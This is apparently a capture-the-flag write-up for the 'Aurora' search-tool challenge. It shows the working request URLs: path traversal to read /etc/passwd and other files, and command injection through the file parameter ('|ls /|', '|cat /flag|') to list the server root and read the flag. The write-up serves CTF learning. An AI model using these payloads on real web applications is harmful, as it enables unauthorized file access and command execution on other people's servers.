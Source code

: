 # CHALLENGE 02

After recent attacks, we’ve developed a search tool. Search the logs and discover what the attackers were after.

Hint: Always search deeper.

https://aurora-web.h4ck.ctfcompetition.com/


## Step 1

aurora

0001bd30  61 5f 53 72 63 5c 41 75  72 6f 72 61 56 4e 43 5c  |a_Src\AuroraVNC\|



  |_

00002e70  5f 55 42 82 d5 53 50 93  ec b2 e0 6b 08 a2 94 dd  |_UB..SP....k....|
00003570  5f 09 ac 68 46 a5 e3 1c  95 61 27 29 8d a9 05 e5  |_..hF....a')....|

We realised we can use requests
https://aurora-web.h4ck.ctfcompetition.com/?file=hexdump.txt&term=00


The 4 letter check seems to be done both in backend and frontend.

```
<!-- /src.txt -->
```


https://aurora-web.h4ck.ctfcompetition.com/?file=../../../../etc/passwd&term=root
root:x:0:0:root:/root:/bin/bash

https://aurora-web.h4ck.ctfcompetition.com/?file=../../../../../usr/bin/ls&term=libu

File names in logs/
```
hexdump.txt
registry.txt
exploit_unobfuscated.js
filenames.txt
hostnames.txt
strings.txt
exploit.js
```

https://aurora-web.h4ck.ctfcompetition.com/?file=../templates/default.html&term=%20%20%20%20

https://aurora-web.h4ck.ctfcompetition.com/?file=%7Cls%20/%7C%20tr%20-d%20%27\n%27|&term=boot

https://aurora-web.h4ck.ctfcompetition.com/?file=%7Ccat%20/flag%7C%20tr%20-d%20%27\n%27|&term=http
